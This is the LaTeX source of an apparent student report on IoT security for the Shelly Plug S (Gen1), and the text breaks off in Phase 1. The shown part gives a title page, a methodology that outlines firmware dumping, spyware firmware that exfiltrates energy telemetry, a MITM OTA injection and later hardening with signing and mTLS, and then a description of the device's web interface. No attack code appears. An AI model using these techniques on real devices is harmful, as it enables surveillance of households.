\documentclass[a4paper,12pt,oneside]{book}
\linespread{1.5}
\usepackage{geometry}
%\geometry{top=2cm,bottom=2.5cm,left=2.5cm,right=2.5cm}
\geometry{left=50pt, right=50pt, bottom=55pt, top=40pt}
\usepackage[utf8]{inputenc}
\usepackage{tikz,pgf}
\usepackage{amsfonts}
\usepackage{todonotes}
\usepackage{subfig}
\usepackage{fancyhdr}
\setlength{\parindent}{0cm}

\usepackage{listings}
\usepackage{graphicx}
\usepackage{float}

\usepackage{amsmath}
\usepackage{numprint}
\usepackage{pgfplots}
\usepackage{pgfplotstable}
\usepackage{tocbibind}
\setcounter{tocdepth}{3}
\usepackage{hyperref}

\usepackage{booktabs}
\usepackage{tabularx}
\usepackage[table]{xcolor}
\definecolor{lightgray}{gray}{0.95}
\definecolor{darkblue}{rgb}{0.0, 0.2, 0.4}

\usepackage{longtable}

\usepackage{minted}
\usepackage{xcolor}
\usepackage{tcolorbox}

\tcbuselibrary{listings, skins, breakable}
\definecolor{codebg}{RGB}{245,245,245}

\setminted{
    bgcolor=codebg,
    fontsize=\small,
    linenos,
    numbersep=8pt,
    frame=lines,
    framesep=3mm,
    baselinestretch=1.1,
    tabsize=2,
    breaklines=true
}

\newenvironment{bashcode}
{\VerbatimEnvironment\begin{minted}{bash}}
{\end{minted}}

\usepackage{csquotes}
\usepackage{fancyhdr}
\pagestyle{fancy}
\renewcommand{\headrulewidth}{0pt}
\fancyhf{}
\fancyhead[L]{}
\fancyfoot[C]{\thepage}

\graphicspath{{Images/}} %% cartella dalla quale ricavare le immagini %%

\setlength {\marginparwidth }{2cm} 
\pgfplotsset{compat=1.16}

  
\begin{document}
%% Frontespizio %%
\begin{titlepage}
    \begin{center}
    \vspace*{0.2cm}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.8\textwidth]{Images/logo.png}
    \end{figure}
        \vspace{5mm}
%% Dipartimento %%
    	\uppercase{\normalsize Dipartimento di Ingegneria Informatica, Modellistica, Elettronica e Sistemistica}\\
    \end{center}
    \begin{center}

    {{{\huge \textbf{Vulnerability Analysis and \\[0.1cm] Hardening of IoT Devices}} \\
        
    \vspace{0.5cm}
        
    % Sottotitolo
    {\Large \textit{The Shelly Plug S (Gen1) case study: \\[0.1cm] from firmware extraction to countermeasure implementation.}}}}\\

    \vspace{7mm}

    %Eventualmente immagine Presa
    
    \end{center}
    
    \vspace{25mm}
    \noindent
    \begin{minipage}[t]{0.48\textwidth}
        \large
        Students: \\ 
        \textbf{Gallicchio Vittorio}, 263726 \\ 
        \textbf{Martucci Giorgio}, 263688 \\ 
        \textbf{Oliverio Ilenia}, 263924
    \end{minipage}%
    \hfill
    \begin{minipage}[t]{0.48\textwidth}
        \raggedleft
        \large
        Teachers: \\ 
        \textbf{Antonio Guerrieri} \\ 
        \textbf{Michele Ianni} \\ 
        \textbf{Claudia Greco}
    \end{minipage}
    
    \vspace{20mm}
    
%% Anno Accademico %%
    \centering{\large \uppercase{Academic year 2025/2026}}
\end{titlepage}

%\tableofcontents

\chapter*{Introduction}
\addcontentsline{toc}{chapter}{Introduction}

\section*{Scenario and Motivations} \addcontentsline{toc}{section}{Scenario and Motivations}
The current technological scenario is characterized by the exponential growth of the Internet of Things (IoT), which, while offering advanced automation and monitoring functionality, often presents significant security challenges.

\medskip
\noindent In this context, this report analyzes these critical issues through the study of the smart socket, \emph{Shelly Plug S (Gen1)}, a widely used device in the consumer market that adopts a hardware architecture based on the ESP8266 SoC, the reference standard for low-cost solutions.

\medskip
\noindent The interest in this target lies in the different risks that can arise following its compromise, which can be mainly categorized into two areas: systemic and privacy-related.

\noindent In the first case, operating as terminal nodes connected to domestic or business networks, these devices often represent the point of greatest vulnerability. An insecure IoT device does not constitute, in fact, a risk only to itself, but acts as a gateway for attacks on other devices connected to the same network, threatening the integrity of the entire system.

\noindent In the second case, although the Shelly Plug S performs elementary functions, the generated data flows, in the specific energy consumption and the operating state of the relay (on/off), are extremely sensitive. If intercepted, these data allow for an accurate analysis, precisely revealing the daily routines and the periods of presence of the occupants in the home.

\medskip
\noindent The analysis of a real commercial product, therefore, facilitates an evaluation of the balance between production costs, ease of use, and the actual robustness of data protection mechanisms.

\section*{Objectives and Methodology of Analysis} \addcontentsline{toc}{section}{Objectives and Methodology of Analysis}
The goal of this research is to conduct an end-to-end analysis of device security, adopting an approach that simulates both the perspective of an attacker and that of a protection-focused developer.

\medskip
\noindent The project is divided into three distinct methodological phases: 
\begin{enumerate}
    \item \textbf{Analysis of Physical Vulnerabilities, Reverse Engineering, and Analysis of Insecure Protocols}: study of the hardware interface to identify serial access ports (UARTs) on the Printed Circuit Board (PCB), aimed at extracting (dumping) the original firmware.
    
    \noindent This phase aims to identify sensitive information, such as cryptographic keys or hardcoded credentials, and to detect structural vulnerabilities in the logical execution of the firmware itself, including the use of unencrypted communication protocols (e.g., MQTT) and insecure Over-the-Air (OTA) update mechanisms.
    
    \item \textbf{Development and Injection of Offensive Firmware}: Red Team simulation designed to demonstrate the real-world impact of the identified vulnerabilities.

    \noindent This phase includes the development of custom firmware, utilizing the same Mongoose OS framework as the original firmware, designed to exfiltrate device telemetry over the network (Energy Spyware).

    \noindent Additionally, a Man-in-the-Middle (MITM) attack scenario was set up to force the installation of the custom firmware onto the device, establishing persistent control. 
    
    \item \textbf{Hardening Strategies and Security by Design}: Implementation of countermeasures to ensure confidentiality, integrity, and authenticity requirements on resource-constrained hardware.

    \noindent This phase involves the adoption of firmware signing techniques and the implementation of a secure update handler for the cryptographic verification of binary updates; this approach prevents the execution of unauthorized code, invalidating the OTA injection attempts analyzed in previous phases.

    \noindent At the same time, communication security is ensured by migrating to the MQTTS protocol via TLS/SSL and by implementing Mutual Authentication (mTLS) with X.509 certificates, effectively preventing interception and traffic manipulation on the local network.
\end{enumerate}

\chapter{Phase 1: Physical Access, Firmware Extraction \& Analysis}
This chapter is dedicated to the technical characterization of the Shelly Plug S (Gen 1), chosen as a case study for security analysis. Before proceeding with vulnerability identification, it is essential to define the system architecture by analyzing both the device's operational capabilities and the hardware configuration of the Printed Circuit Board (PCB). Starting from the description of the factory functionalities, the analysis then delves into the hardware components, identifying the key elements that constitute the physical and logical attack surface of the system. 


\section{Features and Functionality of the Device}
The Shelly Plug S is a smart actuator designed for the remote monitoring and control of domestic electrical loads. It stands out in the IoT scenario due to its small size, which allows it to be used in standard wall sockets without obstructing adjacent plugs.

\noindent The device acts as an interface between the electrical infrastructure and the digital network, enabling not only remote power switching but also the real-time detection of electrical consumption parameters.

\medskip
\noindent From a connectivity perspective, the system operates on the 2.4 GHz band using the Wi-Fi 802.11 b/g/n standard. The firmware architecture includes an integrated web server that allows standalone operation, ensuring full configuration and control within the local network without relying on external cloud infrastructures.

\noindent This structural independence facilitates interoperability with third-party platforms through native support for standard communication protocols such as HTTP, UDP, MQTT, and CoAP.

\medskip
\noindent The local web interface provides an intuitive dashboard to control the relay status, monitor power consumption, and schedule operations. Figure \ref{fig:shelly_web_ui} shows the main page of the integrated web server.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Images/Fase1/Interfaccia1.png}
    \caption{Shelly Plug S native web interface home page}
    \label{fig:shelly_web_ui}
\end{figure}

\noindent Within this interface, users can also configure automated tasks such as weekly schedules (Figure \ref{fig:shelly_schedule}) and customize safety parameters like the maximum power threshold (Figure \ref{fig:shelly_safety}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{Images/Fase1/Interfaccia2.png}
    \caption{Weekly schedule configuration page in the local Web UI}
    \label{fig:shelly_schedule}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\linewidth]{Images/Fase1/Interfaccia4.png}
    \caption{Max power protection settings in the local Web UI}
    \label{fig:shelly_safety}
\end{figure}

\noindent Furthermore, a dedicated settings menu (Figure \ref{fig:shelly_settings}) allows managing system configurations, including firmware updates, default power-on states, and device reboots.

\begin{figure}[H]
    \centering
